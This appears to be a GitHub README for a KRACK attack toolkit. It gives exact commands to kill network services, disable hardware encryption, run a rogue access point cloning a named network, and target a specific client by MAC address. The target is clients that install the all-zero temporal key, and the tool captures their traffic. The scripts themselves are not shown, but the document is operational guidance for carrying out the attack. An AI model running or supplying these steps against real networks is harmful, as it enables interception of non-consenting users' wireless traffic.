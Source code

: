 <b>Note! The code execution is under python 2</b>    
</br>

<b>In case of long interface name please run 'sudo airmon-ng start INTERFACE_NAME'</b>  
</br>

Before execution run the following commands:
- sudo airmon-ng check kill
- service network-manager stop
- sudo rfkill unblock wifi

krack_all_zero_tk.py Run example:
- sudo python ./krackattack/krack_all_zero_tk.py wlx6c5ab0b3f988 wlan0mon ens33 "check" -t F0:27:65:DA:AD:E8    
(See below for an explanation of the command)    

fakeAP.py Run example:
- sudo python fakeAP.py yoyo 1 ens33 wlan0mon   
(where SSID=yoyo, CHANNEL=1, INTERNET_INTERFACE=ens33, AP_INTERFACE=wlan0mon)    
    
The code may require the following packages:
- macchanger
- connect-proxy (sudo apt install connect-proxy)
- socket (sudo apt install socket)

-------------

## Warning!
This code only works with clients that install the all-zero TK in a KraCK attack! Please, use [this tool](https://github.com/lucascouto/krackattacks-scripts) to verify if the client is vunarable to the attack. 

## Environment tested
This code was tested with the following equipaments:
* Attacker:
  * Sony Vaio SVT13134CXS
  * SO: Kali Linux
  * Wi-Fi NIC: Qualcomm Atheros AR9485. Driver: ath9k
  * Wi-Fi usb adapter: TP-LINK TL-WN727N. Driver: mt7601u
  * Android smartphone connected via usb to provide 3g internet

* Client Attacked:
  * Sony Vaio VGN-FW370J
  * SO: Ubuntu 17.10
  * wpa_supplicant v2.4 (2.4-0ubuntu6 am64)

* Access Point:
  * D-Link DIR-809
  * Hardware Version: A2
  * Firmware Version: 1.08
  * Configured with 50% TX power and channel 1

## Prerequisites
Install the following dependencies on Kali Linux:
```
$sudo apt update
$sudo apt install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome
```
Install the following python package:
```
$pip install --user mitm_channel_based
```
Then **disable hardware encryption** using the script ./disable-hwcrypto.sh. It's recommended to reboot after executing this script. After plugging in your Wi-Fi NIC, use systool -vm ath9k_htc or similar to confirm the nohwcript/.. param has been set. 
 
 ## Tool usage
 Below, I show an example of tool command line usage and then explain the arguments:
 
 ```
 $sudo ./krackattack/krack_all_zero_tk.py wlan1 wlan0 usb0 "Familia Couto" -t 00:21:5d:ea:fe:be
 ```
 * `wlan1`: interface that listens and injects packets on the real channel
 * `wlan0`: interface that runs the Rogue AP
 * `usb0`: interface in which is provided internet access
 * `"Familia Couto"`: SSID of the target network
 * `-t 00:21:5d:ea:fe:be`: MAC address of the attacked client
 * You can see many other options running `./krackattack/krack_all_zero_tk.py -h`!
 
 **warnings!**
 * Remember to disable the Wi-Fi before running the script!
 * After disabling the Wi-Fi, run the command: `$rfkill unblock wifi`!
 
 **Files Generated**
 
 After running the script for the first time, some new files will be generated:
 
 * `dnsmasq.conf`: configuration file for DHCP and DNS services
 * `dnsmasq_log`: output from dnsmasq
 * `hostapd_rogue.conf`: configuration file for the rogue ap clone from the real ap
 * `hostapd_rogue.log`: output from hostapd_rogue
 * `rogue_ap_capture.pcap`: file containing packets capture from the rogue ap interface
 
 **Demostration Video**
 
 The following link contains a video that demonstrate this attack: [demostration video](https://www.youtube.com/watch?v=Jq6rPCSuv4o)
 
